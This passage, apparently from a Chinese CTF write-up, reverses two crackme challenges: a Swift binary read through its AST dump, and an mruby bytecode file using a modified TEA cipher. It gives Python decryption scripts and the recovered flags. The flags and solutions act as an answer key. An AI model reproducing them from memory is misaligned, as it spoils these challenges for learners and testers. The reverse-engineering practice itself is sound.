                    (binary_expr type='UInt8' location=re.swift:7:43 range=[re.swift:7:24 - line:7:45] nothrow
                      (dot_syntax_call_expr implicit type='(UInt8, UInt8) -> UInt8' location=re.swift:7:43 range=[re.swift:7:43 - line:7:43] nothrow
                        (declref_expr type='(UInt8.Type) -> (UInt8, UInt8) -> UInt8' location=re.swift:7:43 range=[re.swift:7:43 - line:7:43] decl=Swift.(file).UInt8 extension.& function_ref=double)
                        (argument_list implicit
                          (argument
                            (type_expr implicit type='UInt8.Type' location=re.swift:7:43 range=[re.swift:7:43 - line:7:43] typerepr='UInt8'))
                        )
                      )
                      (argument_list implicit
                        (argument
                          (paren_expr type='(UInt8)' location=re.swift:7:30 range=[re.swift:7:24 - line:7:41]
                            (binary_expr type='UInt8' location=re.swift:7:30 range=[re.swift:7:25 - line:7:40] nothrow
                              (dot_syntax_call_expr implicit type='(UInt8, UInt8) -> UInt8' location=re.swift:7:30 range=[re.swift:7:30 - line:7:30] nothrow
                                (declref_expr type='(UInt8.Type) -> (UInt8, UInt8) -> UInt8' location=re.swift:7:30 range=[re.swift:7:30 - line:7:30] decl=Swift.(file).UInt8 extension.+ function_ref=double)
                                (argument_list implicit
                                  (argument
                                    (type_expr implicit type='UInt8.Type' location=re.swift:7:30 range=[re.swift:7:30 - line:7:30] typerepr='UInt8'))
                                )
                              )
                              (argument_list implicit
                                (argument
                                  (load_expr implicit type='UInt8' location=re.swift:7:26 range=[re.swift:7:25 - line:7:28]
                                    (subscript_expr type='@lvalue UInt8' location=re.swift:7:26 range=[re.swift:7:25 - line:7:28] decl=Swift.(file).Array extension.subscript(_:) [with (substitution_map generic_signature=<Element> (substitution Element -> UInt8))]
                                      (inout_expr implicit type='inout Array<UInt8>' location=re.swift:7:25 range=[re.swift:7:25 - line:7:25]
                                        (declref_expr type='@lvalue [UInt8]' location=re.swift:7:25 range=[re.swift:7:25 - line:7:25] decl=re.(file).check(_:_:).k@re.swift:3:9 function_ref=unapplied))
                                      (argument_list
                                        (argument
                                          (integer_literal_expr type='Int' location=re.swift:7:27 range=[re.swift:7:27 - line:7:27] value=0 builtin_initializer=Swift.(file).Int.init(_builtinIntegerLiteral:) initializer=**NULL**))
                                      ))))
                                (argument
                                  (paren_expr type='(UInt8)' location=re.swift:7:36 range=[re.swift:7:32 - line:7:40]
                                    (binary_expr type='UInt8' location=re.swift:7:36 range=[re.swift:7:33 - line:7:39] nothrow
                                      (dot_syntax_call_expr implicit type='(UInt8, Int) -> UInt8' location=re.swift:7:36 range=[re.swift:7:36 - line:7:36] nothrow
                                        (declref_expr type='(UInt8.Type) -> (UInt8, Int) -> UInt8' location=re.swift:7:36 range=[re.swift:7:36 - line:7:36] decl=Swift.(file).FixedWidthInteger extension.>> [with (substitution_map generic_signature=<Self, Other where Self : FixedWidthInteger, Other : BinaryInteger> (substitution Self -> UInt8) (substitution Other -> Int))] function_ref=double)
                                        (argument_list implicit
                                          (argument
                                            (type_expr implicit type='UInt8.Type' location=re.swift:7:36 range=[re.swift:7:36 - line:7:36] typerepr='UInt8'))
                                        ))
                                      (argument_list implicit
                                        (argument
                                          (load_expr implicit type='UInt8' location=re.swift:7:33 range=[re.swift:7:33 - line:7:33]
                                            (declref_expr type='@lvalue UInt8' location=re.swift:7:33 range=[re.swift:7:33 - line:7:33] decl=re.(file).check(_:_:).r0@re.swift:4:9 function_ref=unapplied)))
                                        (argument
                                          (integer_literal_expr type='Int' location=re.swift:7:39 range=[re.swift:7:39 - line:7:39] value=4 builtin_initializer=Swift.(file).Int.init(_builtinIntegerLiteral:) initializer=**NULL**))
                                      ))))
                              ))))
                        (argument
                          (integer_literal_expr type='UInt8' location=re.swift:7:45 range=[re.swift:7:45 - line:7:45] value=0xff builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**))
                      ))))
              )
            )
          )
```
相当于

```swift
b[i]=r2^(k[0]+((r0>>4)&0xff))
```

后面类似

```
b[i+1]=r3^((k[1]+(r1>>2))&0xff)
b[i+2]=r0^((k[2]))
b[i+3]=r1^k[3]
k[0],k[1],k[2],k[3]=k[1],k[2],k[3],k[0]
```

最终进行一个比对

```
(integer_literal_expr type='UInt8' location=re.swift:13:18 range=[re.swift:13:18 - line:13:18] value=88 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:22 range=[re.swift:13:22 - line:13:22] value=35 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:26 range=[re.swift:13:26 - line:13:26] value=88 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:30 range=[re.swift:13:30 - line:13:30] value=225 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:35 range=[re.swift:13:35 - line:13:35] value=7 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:38 range=[re.swift:13:38 - line:13:38] value=201 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:43 range=[re.swift:13:43 - line:13:43] value=57 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:47 range=[re.swift:13:47 - line:13:47] value=94 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:51 range=[re.swift:13:51 - line:13:51] value=77 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:55 range=[re.swift:13:55 - line:13:55] value=56 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:59 range=[re.swift:13:59 - line:13:59] value=75 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:63 range=[re.swift:13:63 - line:13:63] value=168 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:68 range=[re.swift:13:68 - line:13:68] value=72 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:72 range=[re.swift:13:72 - line:13:72] value=218 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:77 range=[re.swift:13:77 - line:13:77] value=64 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:81 range=[re.swift:13:81 - line:13:81] value=91 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:85 range=[re.swift:13:85 - line:13:85] value=16 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:89 range=[re.swift:13:89 - line:13:89] value=101 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:94 range=[re.swift:13:94 - line:13:94] value=32 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:98 range=[re.swift:13:98 - line:13:98] value=207 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:103 range=[re.swift:13:103 - line:13:103] value=73 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:107 range=[re.swift:13:107 - line:13:107] value=130 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:112 range=[re.swift:13:112 - line:13:112] value=74 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:116 range=[re.swift:13:116 - line:13:116] value=128 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:121 range=[re.swift:13:121 - line:13:121] value=76 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:125 range=[re.swift:13:125 - line:13:125] value=201 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:130 range=[re.swift:13:130 - line:13:130] value=16 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:134 range=[re.swift:13:134 - line:13:134] value=248 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:139 range=[re.swift:13:139 - line:13:139] value=41 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:143 range=[re.swift:13:143 - line:13:143] value=205 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:148 range=[re.swift:13:148 - line:13:148] value=103 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:153 range=[re.swift:13:153 - line:13:153] value=84 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:157 range=[re.swift:13:157 - line:13:157] value=91 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:161 range=[re.swift:13:161 - line:13:161] value=99 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:165 range=[re.swift:13:165 - line:13:165] value=79 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:169 range=[re.swift:13:169 - line:13:169] value=202 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:174 range=[re.swift:13:174 - line:13:174] value=22 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:178 range=[re.swift:13:178 - line:13:178] value=131 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:183 range=[re.swift:13:183 - line:13:183] value=63 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:187 range=[re.swift:13:187 - line:13:187] value=255 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:192 range=[re.swift:13:192 - line:13:192] value=20 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)
                (integer_literal_expr type='UInt8' location=re.swift:13:196 range=[re.swift:13:196 - line:13:196] value=16 builtin_initializer=Swift.(file).UInt8.init(_builtinIntegerLiteral:) initializer=**NULL**)))
```

提取出来之后进行解密

key在下面`345y`

```python
a=[88,35,88,225,7,201,57,94,77,56,75,168,72,218,64,91,16,101,32,207,73,130,74,128,76,201,16,248,41,205,103,84,91,99,79,202,22,131,63,255,20,16]
k=[i for i in b'345y']
k[0],k[1],k[2],k[3]=k[2],k[3],k[0],k[1]
for i in range(len(a)-4,-1,-1):
    r1=k[3]^a[i+3]
    r0=a[i+2]^k[2]
    r3=a[i+1]^((k[1]+(r1>>2))&0xff)
    r2=a[i]^((k[0]+(r0>>4))&0xff)
    a[i],a[i+1],a[i+2],a[i+3]=r0,r1,r2,r3
    k[0],k[1],k[2],k[3]=k[3],k[0],k[1],k[2]
print(bytes(a))
```

flag: `flag{30831242-56db-45b4-96fd-1f47e60da99d}`

## babycode

> by 童帅

自己编译一个mruby，然后反汇编

```sh
mruby -b -v babycode.mrb
```

然后查看，魔改tea

```python

import base64
import struct


def decrypt (v,k):
    v0=v[0]
    v1=v[1]
    # print(hex(v0),hex(v1))
    delta=0x12345678
    sum=delta*16
    i=0;
    mku32=lambda x:((x+0x100000000)&0xffffffff)
    for i in range(16):
        v1 -= (((v0<<3)^(v0>>5))+v0)^(sum+k[(sum+1)&3])
        v1=mku32(v1)
        sum -= delta
        sum=mku32(sum)
        v0 -= (((v1<<3)^(v1>>5))+v1)^(sum+k[((sum>>11)+1)&3])
        v0=mku32(v0)
    return v0,v1
tar='f469358b7f165145116e127ad6105917bce5225d6d62a714c390c5ed93b22d8b6b102a8813488fdb'
tar=base64.b16decode(tar.upper().encode())
key=b'aaaassssddddffff'
print(len(tar),len(key))
k=struct.unpack('IIII',key)
v=[]
for i in range(0,len(tar),8):
    v0=struct.unpack('>I',tar[i:i+4])[0]
    v1=struct.unpack('>I',tar[i+4:i+8])[0]
    v0,v1=decrypt((v0,v1),k)
    v+=[i for i in struct.pack('>I',v0)]
    v+=[i for i in struct.pack('>I',v1)]
flag=bytes(v)
r=[]
for i in range(len(flag)):
    if i==0:
        r.append(flag[i]^(i+1))
    else:
        r.append(flag[i]^r[i-1]^(i+1))
print(bytes(r))
```

flag: `flag{6ad1c70c-daa4-11ec-9d64-0242ac1200}`